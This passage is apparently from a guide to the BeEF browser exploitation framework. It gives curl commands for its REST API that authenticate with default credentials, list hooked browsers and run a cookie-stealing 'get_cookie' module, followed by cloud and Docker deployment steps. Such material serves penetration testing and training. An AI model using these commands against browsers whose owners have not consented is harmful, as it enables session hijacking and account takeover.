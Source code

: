 ## REST API Integration

### Authentication
```bash
# Get authentication token
curl -H "Content-Type: application/json" -X POST \
  -d '{"username":"beef","password":"beef"}' \
  http://localhost:3000/api/admin/login

# Response: {"success":true,"token":"your-token-here"}
```

### API Operations
```bash
# List hooked browsers
curl -H "Authorization: Bearer YOUR_TOKEN" \
  http://localhost:3000/api/hooks

# Get browser details
curl -H "Authorization: Bearer YOUR_TOKEN" \
  http://localhost:3000/api/hooks/HOOK_ID

# Execute command
curl -H "Authorization: Bearer YOUR_TOKEN" \
  -H "Content-Type: application/json" \
  -X POST -d '{"command_module":"get_cookie","command_input":{}}' \
  http://localhost:3000/api/hooks/HOOK_ID/commands

# Get command results
curl -H "Authorization: Bearer YOUR_TOKEN" \
  http://localhost:3000/api/hooks/HOOK_ID/commands/COMMAND_ID
```

## Deployment Strategies

### Cloud Deployment
```bash
# AWS deployment
# 1. Launch EC2 instance
# 2. Configure security groups (ports 3000, 6789, 61985, 61986)
# 3. Install BeEF
# 4. Configure external access

# Docker Compose deployment
version: '3'
services:
  beef:
    image: beefproject/beef
    ports:
      - "3000:3000"
      - "6789:6789"
      - "61985:61985"
      - "61986:61986"
    volumes:
      - ./beef-data:/beef/data
    environment:
      - BEEF_PASSWORD=newpassword
```
